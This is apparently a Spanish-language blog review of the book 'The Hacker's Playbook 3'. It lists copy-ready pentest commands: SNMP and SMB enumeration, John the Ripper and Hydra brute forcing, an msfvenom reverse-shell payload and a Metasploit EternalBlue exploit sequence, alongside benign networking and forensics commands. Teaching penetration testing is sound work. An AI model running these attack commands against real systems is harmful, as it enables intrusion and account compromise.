 ```yaml
---
title: "📘🔐 The Hacker's Playbook 3: Tu Compendio Estratégico en Ciberseguridad 🌐💻"
author: "c4r4nch0"
date: "2023-07-20"
draft: false
searchHidden: false
EStags: ["libro", "estrategia", "ciberseguridad"]
ShowToc: false
ShowBreadCrumbs: false
# cover:
#     image: "https://example.com/images/hackers_playground.jpg"
#     alt: "The Hacker's Playground"
#     caption: "Donde los Estrategas Cibernéticos Perfeccionan su Arte"
#     relative: true # To use relative path for cover image, used in Hugo Page-bundles    

---
```


![Elige tu estrategia: The Hacker's Playbook 3](/campo_de_juego.jpg)

¡Saludos, camaradas de la InfoSEC! Hoy nos sumergiremos en las profundidades estratégicas del "The Hacker's Playbook 3," una joya invaluable en el universo de la ciberseguridad y el testing de penetración. Si estás determinado a dominar el arte de la estrategia cibernética o simplemente deseas elevar tus habilidades en seguridad informática, este libro es una herramienta poderosa que no puede faltar en tu arsenal.

**¿Por qué "The Hacker's Playbook 3"?**

Imagina esto: Estás en el corazón de una prueba de penetración compleja y necesitas una referencia rápida para esa técnica o comando esotérico. Podrías aventurarte en las vastas profundidades de Internet, pero el tiempo apremia y necesitas una fuente confiable a tu alcance. Aquí es donde "The Hacker's Playbook 3" (HP3 para los amigos) entra en escena. Este manual compacto, pero profundo, está diseñado para esos momentos críticos.

**La Magia del HP3**

HP3 es una guía detallada y pragmática que abarca una amplia gama de temas relevantes para el testing de penetración, red teaming, y la ciberseguridad en general. Es como tener un mentor experimentado en tu bolsillo, listo para asistirte en tus momentos más críticos.

[foto del libro The Hacker's Playbook 3]

**Comandos y Técnicas que Adorarás**

Aquí te presento algunos comandos y técnicas que encontrarás en HP3 y que, personalmente, me han encantado, listos para ser copiados y utilizados en tus travesías cibernéticas:

1. **Magia de Enumeración**:
   
   Descubrir información valiosa sobre tu objetivo es crucial. HP3 proporciona una variedad de comandos de enumeración para ayudarte a iniciar:

   - Enumeración de SNMP:
     ```bash
     snmpwalk -c public -v1 IP_objetivo
     ```

   - Enumeración de SMB (usando Enum4linux):
     ```bash
     enum4linux -a IP_objetivo
     ```

2. **Desentrañando Contraseñas**:

   Cuando necesitas desentrañar contraseñas, HP3 ofrece herramientas y técnicas para lograrlo:

   - Usando John the Ripper para desentrañar hashes de contraseñas:
     ```bash
     john --wordlist=lista_de_palabras.txt --format=NT hashes.txt
     ```

   - Empleando Hydra para ataques de fuerza bruta:
     ```bash
     hydra -l usuario -P lista_de_contraseñas.txt ssh://IP_objetivo
     ```

3. **Esenciales de Explotación**:

   Domina exploits comunes y payloads con estos comandos esenciales:

   - Metasploit (lanzando un payload de shell reverso):
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=tu_IP LPORT=tu_puerto -f exe > payload.exe
     ```

   - Explotando una vulnerabilidad conocida (ejemplo con EternalBlue):
     ```bash
     msfconsole
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOSTS IP_objetivo
     exploit
     ```

4. **Paraíso de Cheat Sheets**:

   HP3 está repleto de cheat sheets para diversas tecnologías y protocolos. Aquí un ejemplo para referencia rápida:

   - Cheat Sheet de PowerShell (para comandos básicos):
     ```powershell
     Get-Process
     Get-Service
     Get-NetAdapter
     ```

5. **Ninja de la Red**:

   Para todas tus necesidades de red, la sección de redes de HP3 te tiene cubierto:

   - Configurando una interfaz de red (ejemplo con ifconfig):
     ```bash
     ifconfig eth0 up
     ifconfig eth0 192.168.1.2 netmask 255.255.255.0
     ```

   - Configurando un túnel SSH:
     ```bash
     ssh -L puerto_local:IP_objetivo:puerto_remoto usuario@servidor_ssh
     ```

6. **Forense y Respuesta ante Incidentes**:

   Cuando estés inmerso en un escenario

 de respuesta ante incidentes, estos comandos serán de gran ayuda:

   - Recopilación de datos volátiles usando Volatility (ejemplo para análisis de memoria):
     ```bash
     volatility -f volcado_de_memoria.raw imageinfo
     volatility -f volcado_de_memoria.raw pslist
     ```

   - Verificación de puertos abiertos y procesos en escucha (ejemplo con netstat):
     ```bash
     netstat -tuln
     ```

Utiliza estos comandos de manera responsable en tus travesías cibernéticas.

Recuerda, con gran poder viene gran responsabilidad. 🕵️‍♂️🔍🐍

**Ejemplos del Mundo Real**

HP3 no es solo una lista de comandos; proporciona contexto y ejemplos del mundo real. Te muestra cómo aplicar estos comandos en escenarios reales, es como tener a un colega experimentado compartiendo sus experiencias contigo.

**Conclusión**

Entonces, ¿deberías adquirir "The Hacker's Playbook 3"? Absolutamente. Es una fuente compacta pero poderosa de conocimiento en ciberseguridad que resulta increíblemente útil tanto para principiantes como para profesionales experimentados. Aunque no reemplazará una comprensión profunda, es una herramienta esencial para la referencia rápida y la orientación práctica.

[foto mía utilizando HP3 en un escenario del mundo real]

Ya sea que estés inmerso en una prueba de penetración, estudiando para una certificación o simplemente curioso sobre la ciberseguridad, este manual se convertirá en tu fiel compañero. ¡Es como tener un libro de códigos trucos para el mundo del hacking (éticamente, por supuesto)!

Así que, consigue tu copia de "The Hacker's Playbook 3" y embarquémonos en una travesía llena de aventuras cibernéticas, un comando a la vez.